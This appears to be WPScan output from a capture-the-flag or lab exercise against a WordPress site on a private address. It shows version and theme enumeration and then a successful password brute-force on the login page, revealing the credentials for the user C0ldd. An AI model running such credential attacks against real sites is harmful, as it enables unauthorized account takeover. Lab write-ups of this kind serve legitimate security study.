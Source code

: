 ```
[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Rss Generator (Passive Detection)
 |  - http://192.168.5.129/?feed=rss2, <generator>https://wordpress.org/?v=4.1.31</generator>
 |  - http://192.168.5.129/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.1.31</generator>

[+] WordPress theme in use: twentyfifteen
 | Location: http://192.168.5.129/wp-content/themes/twentyfifteen/
 | Last Updated: 2024-04-02T00:00:00.000Z
 | Readme: http://192.168.5.129/wp-content/themes/twentyfifteen/readme.txt
 | [!] The version is out of date, the latest version is 3.7
 | Style URL: http://192.168.5.129/wp-content/themes/twentyfifteen/style.css?ver=4.1.31
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen
 | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.5.129/wp-content/themes/twentyfifteen/style.css?ver=4.1.31, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=========================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - C0ldd / 9876543210                                                                                                                                                          
Trying C0ldd / franklin Time: 00:00:26 <                                                                                                       > (1225 / 14345617)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: C0ldd, Password: 9876543210

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jun 30 14:06:32 2024
[+] Requests Done: 1407
[+] Cached Requests: 5
[+] Data Sent: 453.628 KB
[+] Data Received: 22.861 MB
[+] Memory used: 287.586 MB
[+] Elapsed time: 00:00:35
```
